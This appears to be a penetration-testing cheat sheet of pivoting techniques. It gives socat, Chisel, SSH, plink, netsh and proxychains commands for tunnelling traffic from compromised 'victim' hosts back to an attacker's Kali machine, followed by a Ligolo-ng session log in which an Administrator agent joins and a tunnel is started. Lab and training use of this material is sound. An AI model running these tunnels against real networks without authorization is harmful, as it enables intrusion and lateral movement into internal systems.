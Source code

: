 		## SOCAT
Port Forward (Liston on port 2345, forward all traffci to 5432 on 10.4.50.215 IP)
`socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432`
Port Forward all traffic from localmachine 2222 to 22 on 10.4.50.215
`socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`

## Chisel 
Start an reverse listening server on your local machine:
`chisel server --reverse -p 9001`
Upload chisel to infected machine: 
`scp chisel user@host:/path/to/chisel`
Start chisel client on infected machine:
`chisel client 10.10.16.7:9001 R:8111:127.0.0.1:8111`

#### Chisel Dynamic Port forward:
On victim machine: `.\SharpChisel.exe server --socks5 --port 9001`
On local Kali: `./chisel client 192.168.220.141:9001 50080:socks`
Add 50080 to proxychains conf


### SSH 
Listen on all interfaces on port 4455 and forward all packets to port 445 on 172.16.50.217
`ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215`

Dynamic port forwarding: Listen on all interfaces on port 9999 and send all traffic through 10.4.50.215 to other hosts behing the 10.4 X host: 
`ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215`

Remote port forward: Listen on our local Kali machine on port 2345 forward all traffic to 10.4.50.215 on port 5423:
`ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4`

Remote Dynamic port forward: Listen on our Kali machine port 9998 and forward all traffic to specified ports: 
`ssh -N -R -D 9998 kali@192.168.118.4`

```
# $LOCAL_IP: 'localhost' or machine from local network
# $LOCAL_PORT: open port on local machine
# $REMOTE_IP: remote localhost or IP from remote network
# $REMOTE_PORT: open port on remote site

# Forward Tunnel: map port from remote machine/network on local machine
ssh -L $LOCAL_PORT:$REMOTE_IP:$REMOTE_PORT $USER@$SERVER

# Reverse Tunnel: make local port accessable to remote machine
ssh -R $REMOTE_PORT:$LOCAL_IP:$LOCAL_PORT $USER@$SERVER

```


### Proxychains
After adding an listening port the local machine we have to use proxychains to send traffic to the specific listening port, if the port is configured on 9999 then change the .conf as: 
```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999
```

### PLINK
Remote port forward to local Kali SSH machine 
`C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4`


### NETSH
Add a portproxy ipv4 listener on port 2222, and connect on port 22 to host 10.4.50.215
`netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215`
Add to firewall: `netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow`


## Ligolo 
```

..[$] <()> sudo ./proxy -selfcert   
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
WARN[0000] TLS Certificate fingerprint for ligolo is: E2D4A7B037244762CAE1EBF1A187802B6C5E497286D01D980E45066670BD57A5 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng » INFO[0006] Agent joined.                                 id=af1ace72-0dc5-423b-97b0-1f448f7919d7 name="MS01\\Administrator@MS01" remote="192.168.143.147:61852"
ligolo-ng » start
error: please, select an agent using the session command
ligolo-ng » session
? Specify a session : 1 - MS01\Administrator@MS01 - 192.168.143.147:61852 - af1ace72-0dc5-423b-97b0-1f448f7919d7
[Agent : MS01\Administrator@MS01] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:bd:39              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.143.147/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:9e:cd:66              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.10.103.147/24               │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : MS01\Administrator@MS01] » interface_add_route --name ms01 --route 10.10.103.147/24 
error: Link not found
[Agent : MS01\Administrator@MS01] » interface_add_route --name ms01 --route 10.10.103.147/24 dev ligolo
error: invalid usage of command 'route_add' (unconsumed input 'dev ligolo'), try 'help'
[Agent : MS01\Administrator@MS01] » interface_create oscpb
error: invalid usage of command 'interface_create' (unconsumed input 'oscpb'), try 'help'
[Agent : MS01\Administrator@MS01] » interface_create --name oscpb
INFO[0106] Creating a new "oscpb" interface...          
INFO[0106] Interface created!                           
[Agent : MS01\Administrator@MS01] » interface_add_route --name oscpb --route 10.10.103.147/24
INFO[0129] Route created.                               
[Agent : MS01\Administrator@MS01] » tunnel_start -tun oscpb
error: invalid flag: -tun
[Agent : MS01\Administrator@MS01] » tunnel_start --tun oscpb
[Agent : MS01\Administrator@MS01] » INFO[0198] Starting tunnel to MS01\Administrator@MS01 (af1ace72-0dc5-423b-97b0-1f448f7919d7) 
```

https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5